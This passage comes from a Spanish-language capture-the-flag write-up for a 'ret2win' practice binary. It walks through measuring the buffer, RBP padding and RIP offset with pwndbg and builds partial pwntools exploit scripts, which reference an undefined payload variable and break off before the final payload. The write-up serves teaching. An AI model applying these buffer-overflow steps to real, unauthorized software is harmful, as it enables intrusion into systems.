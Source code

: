 ```

Aqui lo unico interesante que hace es hacer un cat a la flag, y bueno, es posible saltar a una funcion ya que casi todas terminan con la intruccion ```ret``` y esto nos permite crear cadenas ROP (no las usaremos en este ejercicio)

## Construyendo el payload

En mi caso usare pwndbg, asi que metere el programa y con ```cyclic 100``` generare una secuencia de 100 caracteres que le pasare como input, una vez que el programa pete.

### Llenado el buffer

Sabemos que nuestro buffer es que 32 bytes ya cuando hicimos el analisis estaba como ```rbp-20h``` y eso es 32, asi que empezamos a craftear nuestro explot que de momento va asi:

```py
from pwn import *

proc = process("./ret2win")

buffer = b"A" * 32

proc.sendline(payload)
print(proc.recvall().decode())
```

### Sacando el offset de RBP

Esto simplemente es padding para llegar al RIP, y como estamos en un binario de 64 bits, entonces esto seran 8 bytes y nuestro payload queda asi:

```py
from pwn import *

proc = process("./ret2win")

buffer = b"A" * 32
rbp = b"B" * 8

proc.sendline(payload)
print(proc.recvall().decode())
```

### Sacando el offset del RIP

Como siempre, en x64 podemos usar sacar el offset del RSP para saber el desplazamiento para llegar al RIP, o sacar el offset del RBP y sumarle 8 bytes, al fin de cuentas ambos llegan al RIP jaja

Ahora ya podemos sacar el offset del RSP, como al programa le pasos lo que nos dio ```cyclic 100```, entonces en el RSP debio de salir algo como esto:

![](/assets/img/ret2win/gdb.png)
